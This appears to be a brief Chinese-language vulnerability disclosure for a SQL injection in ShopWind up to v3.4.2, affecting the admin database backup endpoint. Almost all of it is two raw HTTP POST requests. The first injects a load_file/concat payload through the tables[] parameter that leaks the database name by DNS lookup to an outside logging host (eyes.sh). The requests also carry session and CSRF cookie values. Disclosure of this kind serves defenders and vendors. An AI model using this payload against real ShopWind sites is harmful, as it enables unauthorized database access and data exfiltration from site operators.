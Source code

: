 # Shopwind 存在 SQL注入

## 描述

漏洞页面为: \backend\libary\Database.php

http://host/admin/db/backup.html

ShopWind <= v3.4.2

ShopWind v3.4.2 在 Database.php 文件中存在一个SQL注入漏洞

[+]payload:

```sql
POST /admin/db/backup.html HTTP/1.1
Host: local.rapoo.top
Content-Length: 141
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://local.rapoo.top
Referer: http://local.rapoo.top/admin/db/backup.html
Accept-Language: zh-CN,zh;q=0.9
Cookie: switchHistory=website%2Fdb; UM_distinctid=1803c2602eb210-05a24410a265d9-1734337f-1fa400-1803c2602ec659; bjui_theme=purple; XDEBUG_SESSION=PHPSTORM; CNZZDATA1618465=cnzz_eid%3D555001816-1650273840-%26ntime%3D1650346840; advanced-backend=p78poo8n9hl27mks17hf2vlgll; _csrf-backend=ad56049615f6ba364b544685b88bf7aef7baeca4c875a1af3133961cccb509bfa%3A2%3A%7Bi%3A0%3Bs%3A13%3A%22_csrf-backend%22%3Bi%3A1%3Bs%3A32%3A%22y-o088Wj2bIB0WpJf8fRaiplRoDM9rDq%22%3B%7D; goodsBrowseHistory=c28cb2b6cbbb56efe1b54af4962a1184b1ff4c069830e85977639ad55216dd9ba%3A2%3A%7Bi%3A0%3Bs%3A18%3A%22goodsBrowseHistory%22%3Bi%3A1%3Bs%3A2%3A%2226%22%3B%7D; advanced-frontend=bhikf56hlq22mu402s14in6d6e; _csrf-frontend=ec2187396433327b12bd8538772fae89ba08815dcf64c739e37d57d5d43e1c8fa%3A2%3A%7Bi%3A0%3Bs%3A14%3A%22_csrf-frontend%22%3Bi%3A1%3Bs%3A32%3A%22As8fd2CCmnh4ExTtegRpqbV4C9r-f4oO%22%3B%7D
Connection: close

tables%5B%5D=swd_address`;select load_file(concat('\\\\',(select database()),'.x6m87hw0.eyes.sh\\abc'));#&vol_size=100&backup_name=20220425_5
```

```sql
POST /admin/db/export.html HTTP/1.1
Host: local.rapoo.top
Content-Length: 12
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://local.rapoo.top
Referer: http://local.rapoo.top/admin/db/backup.html
Accept-Language: zh-CN,zh;q=0.9
Cookie: switchHistory=website%2Fdb; UM_distinctid=1803c2602eb210-05a24410a265d9-1734337f-1fa400-1803c2602ec659; bjui_theme=purple; XDEBUG_SESSION=PHPSTORM; CNZZDATA1618465=cnzz_eid%3D555001816-1650273840-%26ntime%3D1650346840; advanced-backend=p78poo8n9hl27mks17hf2vlgll; _csrf-backend=ad56049615f6ba364b544685b88bf7aef7baeca4c875a1af3133961cccb509bfa%3A2%3A%7Bi%3A0%3Bs%3A13%3A%22_csrf-backend%22%3Bi%3A1%3Bs%3A32%3A%22y-o088Wj2bIB0WpJf8fRaiplRoDM9rDq%22%3B%7D; goodsBrowseHistory=c28cb2b6cbbb56efe1b54af4962a1184b1ff4c069830e85977639ad55216dd9ba%3A2%3A%7Bi%3A0%3Bs%3A18%3A%22goodsBrowseHistory%22%3Bi%3A1%3Bs%3A2%3A%2226%22%3B%7D; advanced-frontend=bhikf56hlq22mu402s14in6d6e; _csrf-frontend=ec2187396433327b12bd8538772fae89ba08815dcf64c739e37d57d5d43e1c8fa%3A2%3A%7Bi%3A0%3Bs%3A14%3A%22_csrf-frontend%22%3Bi%3A1%3Bs%3A32%3A%22As8fd2CCmnh4ExTtegRpqbV4C9r-f4oO%22%3B%7D
Connection: close

id=0&start=0
```
